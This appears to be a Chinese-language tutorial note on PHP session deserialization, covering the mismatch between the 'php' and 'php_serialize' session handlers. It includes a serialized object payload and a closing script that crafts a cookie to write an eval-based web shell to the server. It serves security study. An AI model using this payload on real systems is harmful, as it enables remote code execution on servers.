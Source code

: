 前置知识：
     当我们写 $_SESSION['meng'] = 'meng'; 的时候，服务器会在它的一个目录下创建一个文件，文件的内容是：a:1:{s:4:"meng";s:4:"meng";}这就看出来了，服务器在存储我们的session内容的时候，是将session进行了序列化存储在文件当中，然后当我们需要用到session里面的内容的时候，服务器从存储序列化后session的文件中取出相关内容，然后进行反序列化。


```
ini_set('session.serialize_handler', 'php') 时的Session文件内容例：user|s:3:"xxx";

ini_set('session.serialize_handler', 'php_serialize') 时的Session文件内容例：a:1:{s:4:"user";s:3:"xxx";}
```

^
## **session反序列化利用**
php(php<5.5.4默认):存储方式是，键名+竖线+经过serialize()函数序列处理的值
```php
meng|s:4:"meng";
```

php_serialize(php>5.5.4默认):存储方式是，经过serialize()函数序列化处理的值 
```php
a:1:{s:4:"meng";s:4:"meng";}
```
如果一个php程序，这两种模式都有使用，那么就是利用两者序列化时和反序列化时的差异，实现反序列化恶意的串。


^
一般情况下默认是php_serialize模式存储session。
如果在某处正好使用的第一种php模式下，|后的数据被作为session的内容，当session开启被触发时，会对这个内容反序列化。

如何这个session的内容可控，我们就可以传入恶意的序列化串。
先是php_serialize模式存储session序列化，然后php模式反序列化。
如:
```
设置键为test的session内容：
$_SESSION['test']='|O:1:"M":1:{s:1:"a";s:4:"hihi";}';
php_serialize模式序列化的，此时seesion文件内容：
a:1:{s:4:"test";s:32:"|O:1:"M":1:{s:1:"a";s:4:"hihi";}";}

此时设置php模式，并触发反序列化。
ini_set('session.serialize_handler','php');
session_start();
则反序列化的数据为|后面的
O:1:"M":1:{s:1:"a";s:4:"hihi";}
```

^
可控session场景：
```
$_SESSION['limit']=base64_decode($_COOKIE['limit']);
```
设置session内容时，前面加个|即可。
```
<?php
    class User{
        public $username;
        public $password;
        function __construct($username,$password){
            $this->username = $username;
            $this->password = $password;
        }
        function __destruct(){
            file_put_contents("log-".$this->username, "使用".$this->password."登陆".($this->status?"成功":"失败")."----".date_create()->format('Y-m-d H:i:s'));
        }
    }
    $a = new User('1.php','<?php eval($_POST[1]);phpinfo();?>');
    echo base64_encode('|'.serialize($a));
?>
```